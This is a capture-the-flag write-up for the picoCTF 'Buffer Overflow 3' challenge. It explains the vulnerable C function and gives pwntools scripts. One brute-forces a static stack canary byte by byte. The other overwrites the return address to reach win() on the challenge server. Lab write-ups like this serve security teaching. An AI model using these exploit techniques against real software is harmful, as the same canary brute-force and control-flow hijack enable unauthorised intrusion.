

# Bypassing Stack Canary to Hijack Control Flow — picoCTF Buffer Overflow 3 Exploit

## 📘 Challenge Summary

You are provided with a vulnerable C binary and two support files: `flag.txt` and `canary.txt`. The goal is to trigger the `win()` function that reads the flag from `flag.txt`.

---

## 🔍 Source Code Review

Here’s a summary of the vulnerable behavior in the `vuln()` function:

```c
void vuln(){
   char canary[CANARY_SIZE];  // 4 bytes
   char buf[BUFSIZE];         // 64 bytes
   char length[BUFSIZE];      // input for read length
   ...
   memcpy(canary,global_canary,CANARY_SIZE);
   ...
   read(0, buf, count);
   ...
   if (memcmp(canary, global_canary, CANARY_SIZE)) {
       printf("***** Stack Smashing Detected ***** : Canary Value Corrupt!\n");
       exit(0);
   }
}
```

### Key Observations

* The function reads an arbitrary number of bytes (`count`) into a buffer `buf[64]` without bounds checking.
* It uses a **stack canary** (`canary`) copied from a global `global_canary`, read from a file at runtime (`canary.txt`).
* If `buf` is overflown, the canary is corrupted, and the program exits.
* After passing the canary check, **control returns normally** — so we can **overwrite the return address** and hijack execution to `win()`!

---

## 🎯 Goal

* Leak or brute-force the 4-byte stack canary.
* Bypass stack smashing check.
* Overwrite the return address to jump to the `win()` function.
* Get the flag printed by `win()`.

---

## 🔓 Step 1: Brute-forcing the Canary

The canary is not randomized per run (static value loaded from a file), so brute-forcing it byte-by-byte is viable.

### Brute-forcer Script

```python
from pwn import *
import string

canary_offset = 64  # buffer size before canary
canary = b""

chall = ELF("./vuln")

def get_process():
    if args.REMOTE:
        return remote('saturn.picoctf.net', 54612)
    else:
        return chall.process()

# Bruteforce one byte at a time
for i in range(1, 5):
    for c in string.printable:
        r = get_process()
        r.sendlineafter(b"> ", str(canary_offset + i).encode())

        payload = b"A" * canary_offset + canary + c.encode()
        r.sendlineafter(b"> ", payload)
        resp = r.recvall()

        print(resp)
        if b"Now Where's the Flag" in resp:
            canary += c.encode()
            break
        r.close()

print(f"Found Canary: {canary}")
```

### Logic

* Starts with 64 'A's (to fill buffer)
* Adds known good canary bytes
* Tries each printable character for the next byte
* Sends payload and checks output
* If it passes the canary check, it keeps the byte

we get canary = BiRd

---

## ✅ Step 2: Exploit Script to Trigger `win()`

Now that we have the correct canary (e.g., `"BiRd"`), we can craft a full payload:

### Exploit Script

```python
from pwn import *

# === Configuration ===
HOST = 'saturn.picoctf.net'
PORT = 54612
context.binary = elf = ELF('./vuln')
context.terminal = ['tmux', 'splitw', '-h']
context.log_level = 'debug'

# === Canary (discovered via brute-force) ===
canary = b"BiRd"
assert len(canary) == 4

# === Address of win() ===
win_addr = 0x0804933a
log.info(f"win() @ {hex(win_addr)}")

# === Payload Construction ===
payload  = b'A' * 64           # buffer
payload += canary              # correct canary value
payload += b'B' * 16           # saved EBP + some filler
payload += p32(win_addr)       # overwrite RET address

# === Exploiting ===
io = remote(HOST, PORT)
io.sendlineafter(b"> ", b"100")  # count > len(payload)
io.sendlineafter(b"> ", payload)
io.interactive()
```

### Why 100 bytes?

We specify `100` as the count to ensure the `read()` reads enough bytes into the stack to reach and overwrite the return address.

---

## 💥 Stack Layout Visualization

```
[ buf[64]       ]  --> 'A'*64
[ canary[4]     ]  --> must match 'BiRd'
[ saved EBP(4)  ]  --> filler 'B'*4
[ alignment(12) ]  --> optional filler (depends on compiler)
[ RET address   ]  --> overwrite with win()
```

You may pad more or less depending on local testing, but in this case, 16 bytes of padding (`'B'*16`) works.

---

## 🧪 Test and Flag

After running the exploit, you should get:



---

## 📝 Conclusion

| Step                | Description                                |
| ------------------- | ------------------------------------------ |
| Vulnerability       | Stack buffer overflow                      |
| Mitigation Bypassed | Canary (4-byte, static)                    |
| Method              | Brute-force canary, control return address |
| Goal                | Jump to `win()` to get the flag            |
| Exploit Difficulty  | Beginner-friendly ROP with brute-force     |

---

## 🔐 Extra Notes

* This is a *32-bit* binary (`x86`, not `x64`)
* No PIE, no ASLR when remote
* Canary is static, allowing easy brute-force
* `win()` has no arguments; just jumping is enough

